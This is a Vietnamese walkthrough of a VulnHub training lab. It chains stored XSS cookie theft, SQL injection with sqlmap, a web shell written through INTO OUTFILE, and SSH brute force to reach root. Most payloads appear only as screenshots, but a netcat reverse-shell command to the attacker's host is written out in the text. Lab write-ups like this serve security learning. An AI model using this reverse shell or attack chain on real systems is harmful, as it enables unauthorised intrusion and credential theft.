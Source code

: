 ## XSS and MySQL 

### Discover
![image](https://hackmd.io/_uploads/HJI5oJI4Jx.png)

Link truy cập và tải [lab](https://www.vulnhub.com/entry/pentester-lab-xss-and-mysql-file,66/) ! 

Khởi chạy lab - vuln machine trên VMware. Vì Lab chạy trên cùng interface mạng với máy Kali (ở đây dùng làm máy tấn công), sử dụng netdiscover để tìm địa chỉ IP của Lab: 

![image](https://hackmd.io/_uploads/SJ4upJLE1x.png)

Địa chỉ IP của máy Kali: 192.168.68.136/24

![image](https://hackmd.io/_uploads/HJE9ak8N1e.png)

Sử dụng netdiscover, tùy chọn -r (range) chỉ định phạm vi giải địa chỉ tương ứng với máy Kali: 

![image](https://hackmd.io/_uploads/H1fT6yUNkx.png)

Kết quả ở trên, ta suy ra địa chỉ của máy Lab là 192.168.68.162, các địa chỉ còn lại mặc định là địa chỉ Gateway, máy thật, máy kali. 
### Enum
Tiếp theo, mình do quét các cổng đang mở của máy lab: 

![image](https://hackmd.io/_uploads/rJRgBB8Ekl.png)

Kết quả có 2 port đang mở. Việc chỉ định -p-,  -T4 để scan trên tất cả các port và tăng tốc độ scan. Chạy thêm 1 lệnh nmap để scan chi tiết trên các cổng đang mở này: 

![image](https://hackmd.io/_uploads/HJSwUSI4Jx.png)

Tùy chọn -sC để chạy script scan mặc định, -sV để scan version , kết quả port 22 chạy ssh OpenSSH 5.5p1, port 80 chạy web Apache httpd 2.2.16. 

Mở browser và truy cập 192.168.68.162, port 80 ,ta được giao diện web như sau: 

![image](https://hackmd.io/_uploads/S1DeuHUNkx.png)

Đây là 1 trang blog đơn giản, dạo qua web một vòng, truy cập các post thì chỉ có tính năng bình luận, truy cập Admin thì sẽ hiện ra form login đăng nhập: 

![image](https://hackmd.io/_uploads/HkZw_H8VJl.png)

Tạm thời bỏ qua, trước khi test thủ công, ta chạy gobuster để dò tìm các folder, file ẩn trên web: 

![image](https://hackmd.io/_uploads/ryItqB84kg.png)
![image](https://hackmd.io/_uploads/ryRi5rINyg.png)

Truy cập vào các đường dẫn trên không thu được gì thú vị và có thể khai thác. Sử dụng extension Wappalyzer để xem thông tin trang web: 

![image](https://hackmd.io/_uploads/SkGdjS8V1g.png)

Ta biết được trang web được viết bằng php, chạy trên máy chủ Apache 2.2.16, hệ điều hành,... 

Quay lại trang blog, trang có tính năng commment, ta có thể test ngay đến các lổ hổng XSS, SSTI,... Thử ngay với payload test XSS do gợi ý từ tên lab có XSS :> :

![image](https://hackmd.io/_uploads/rk4aur84yl.png)

Kết quả, dính XSS stored ở tính năng comment: 

![image](https://hackmd.io/_uploads/SJvi3HIN1e.png)

Lỗi XSS này, ta nghĩ tới ngay việc khai thác đánh cắp cookie người dùng. Để khai thác XSS này, giả sử admin hoặc người dùng truy cập trang web xem comment, khi đó XSS sẽ điều hướng đến trang C2 do ta kiểm soát. Trước tiên, ta tạo máy C2 để nhận cookie từ người dùng: 
### Exploit
Ta tạo file index.php: 

![image](https://hackmd.io/_uploads/Sy38MUL4Je.png)

Sau đó host trên local sử dụng php option -S: 

![image](https://hackmd.io/_uploads/ryAhfLLVJl.png)

Quay lại trang blog, tạo payload khai thác như sau: 

![image](https://hackmd.io/_uploads/S19Z4ILVke.png)

Submit comment chứa payload, sau đó, khi admin truy cập đọc comment, ta lấy được cookie như sau: 

![image](https://hackmd.io/_uploads/SJQ8DI84ke.png)

Update lại cookie của admin, ta truy cập được vào trang admin trên blog: 

![image](https://hackmd.io/_uploads/ryscvUUVye.png)

Mình đã thử qua các chức năng mới của admin, scan Burpsuite tới chức năng edit post, có vẻ bị dính SQL Injection: 

![image](https://hackmd.io/_uploads/SyV4_twEJx.png)

Truy cập trang edit một post bất kỳ, thấy có tham số id trên url, mình đã thử inject ký tự ', và kết quả có thông báo lỗi hàm mysql_fetch_assoc(), lỗi truy vấn SQL:

![image](https://hackmd.io/_uploads/rJvrYFvEkx.png)

Sử dụng Sqlmap để scan url với tham số id: 

![image](https://hackmd.io/_uploads/rJf0aKwVkx.png)

Thực hiện dump dữ liệu với option -dump, ngoài các table chứa dữ liệu post, ta còn thu được thông tin đăng nhập của user admin với pass được crack là :"P4ssw0rd". 

![image](https://hackmd.io/_uploads/rJhxW9vNJe.png)
![image](https://hackmd.io/_uploads/B1i7Z9wVye.png)
![image](https://hackmd.io/_uploads/SybUZcDVkx.png)

Truy cập login , login thành công với user admin với password bên trên. 
### RCE to root
Sau khi tìm hiểu khai thác sql injection, mình thấy lỗi này có thể khai thác để ghi file vào hệ thống. Mình search trên google nói về [sql-to-shell](https://pentesterlab.com/exercises/from-sqli-to-shell),  tận dụng cách trong bài viết này, mình upload shell sử dụng toán tử UNION và hàm "into outfile" có trong Mysql để ghi file.

![image](https://hackmd.io/_uploads/SyL8nRP4yl.png)

Dựa vào kết quả các thư mục tìm được từ công cụ Gobuster, sau nhiều lần thử, mình thành công write được vào thư mục /css mà không bị hạn chế về quyền:

![image](https://hackmd.io/_uploads/Hyp0P3w4Jx.png)

Truy cập /css để kiểm tra: 

![image](https://hackmd.io/_uploads/HJ1hO2DNyg.png)

Kết quả , file được up thành công, test thử vài truy vấn đơn giản như ls,whoami để kiểm tra RCE thành công:

![image](https://hackmd.io/_uploads/HkAgF2wNke.png)
![image](https://hackmd.io/_uploads/rycQt3P4kg.png)

Sau khi thử vài payload trên revshell, ta thành công với đoạn lệnh sau: `nc -c sh 192.168.68.136 4444`

![image](https://hackmd.io/_uploads/ry_xHaPVyl.png)
![image](https://hackmd.io/_uploads/B1yfSavEkx.png)

Tuy nhiên, người dùng www-data này không có quyền root. Thử đọc file /etc/passwd:

![image](https://hackmd.io/_uploads/HkSHyAPEyg.png)

Thấy ngoài root, ta còn thấy người dùng user, brute-force "user" với msf sử dụng ssh_login module:

![image](https://hackmd.io/_uploads/rkEw40PEJx.png)

Đăng nhập với user:pass vừa tìm được:

![image](https://hackmd.io/_uploads/rJ9NIRwVyl.png)
Vậy là mình get root thành công hệ thống!

